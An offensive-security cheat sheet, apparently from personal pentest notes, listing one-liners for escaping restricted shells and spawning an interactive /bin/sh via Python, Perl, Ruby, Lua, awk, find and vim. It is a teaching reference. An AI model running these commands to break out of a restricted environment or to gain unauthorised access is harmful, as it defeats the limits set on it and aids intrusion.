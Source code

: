 - There may be times that we land **on a system with a limited shell, and Python is not installed**. In these cases, it's good to know that we could use several different methods to spawn an interactive shell. Let's examine some of them:

# Breaking Restricted / Limited Shells
---
- Python:
	- `python -c 'import pty; pty.spawn("/bin/sh")' `
- Sh:
	- `/bin/sh -i`
- Perl
	- `perl —e 'exec "/bin/sh";'`
	- `perl: exec "/bin/sh";`
- Ruby
	- `ruby: exec "/bin/sh"`
- Lua
	- `lua: os.execute('/bin/sh')`
- AWK
	- `awk 'BEGIN {system("/bin/sh")}'`
- Find
	- `find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
	- Using Exec To Launch A Shell:
		- `find . -exec /bin/sh \; -quit`
- VIM
	- `vim -c ':!/bin/sh'`
	- Vim Escape: 
		- `:set shell=/bin/sh`
		- `:shell`
- Sudo -l:
	- The sudo -l command above will need a stable interactive shell to run. If you are not in a full shell or sitting in an unstable shell, you may not get any return from it. 